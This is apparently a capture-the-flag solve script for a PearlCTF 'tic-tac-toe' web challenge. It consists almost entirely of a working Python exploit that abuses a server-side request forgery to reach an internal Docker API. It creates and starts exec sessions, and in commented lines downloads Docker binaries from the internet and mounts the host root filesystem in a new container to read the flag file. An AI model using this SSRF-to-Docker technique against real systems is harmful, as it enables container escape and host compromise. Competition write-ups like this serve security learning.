

### My Solve

```py
import requests
import re

burp0_url = "https://tic-tac-toe-2be65176aac79f13.ctf.pearlctf.in/"
burp0_headers = {
    "User-Agent": "curl/8.12.1",
    "Accept": "*/*",
    "Content-Type": "application/json"
}

# First deploy a container using the /deploy endpoint

# Get the container ID from /info endpoint
burp0_json = { "state": "_________", "api": {"http://": "http://127.0.0.1:2375/info#"}, "action": "get" }

r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json)
id = r.json()['body']['ContainerdCommit']['ID']
# id = "1d2fcd2b5eb60213efaac10fa38ed96e73c6dca5dbc6f6ffaf34144b2621fe26"

# install docker and run a container with a volume mount to read the flag
# command = "wget https://download.docker.com/linux/static/stable/x86_64/docker-20.10.18.tgz && tar -xvf docker-20.10.18.tgz && mv docker/* /usr/local/bin/ && chmod +x /usr/local/bin/docker"
# command = "docker -H 172.17.0.1:2375 run -tid -v /:/mnt/ --name flast102 alpine"

# read the flag
command = "docker -H 172.17.0.1:2375 exec flast102 sh -c 'cat /mnt/flag/flag.txt'"

# Send the first POST request to execute the command
burp0_json = {
    "action": "post",
    "api": {"http://": "http://127.0.0.1:2375/containers/{}/exec#".format(id)},
    "AttachStderr": True,
    "AttachStdin": False,
    "AttachStdout": True,
    "Cmd": ["sh", "-c", command],
    "state": "_________",
    "Tty": True
}

print("Sending first POST request...")
response = requests.post(burp0_url, headers=burp0_headers, json=burp0_json)
#print(f"Response status code: {response.status_code}")
#print(f"Response body: {response.text}")

try:
    response_json = response.json()
    id = response_json["body"]["Id"]
    print(f"Extracted ID: {id}")
except (KeyError, ValueError) as e:
    print(f"Error extracting ID: {e}")
    exit(1)

# Send the second POST request to start the command
burp0_json = {
    "action": "post",
    "api": {"http://": f"http://127.0.0.1:2375/exec/{id}/start#"},
    "Detach": False,
    "state": "_________",
    "Tty": True
}

print("Sending second POST request...")
response = requests.post(burp0_url, headers=burp0_headers, json=burp0_json)
#print(f"Response status code: {response.status_code}")
#print(f"Response body: {response.text}")

# print(response.text)
try:
    response_json = response.json()
    body = response_json.get('body', '')

    ansi_escape = re.compile(r'\x1B[@-_][0-?]*[ -/]*[@-~]')
    clean_body = ansi_escape.sub('', body)

    print("Final response JSON:")
    if "got 'list'" in clean_body:
        print(response_json)
    else:
        print(clean_body)
except ValueError as e:
    print(f"Error parsing final response JSON: {e}")
```
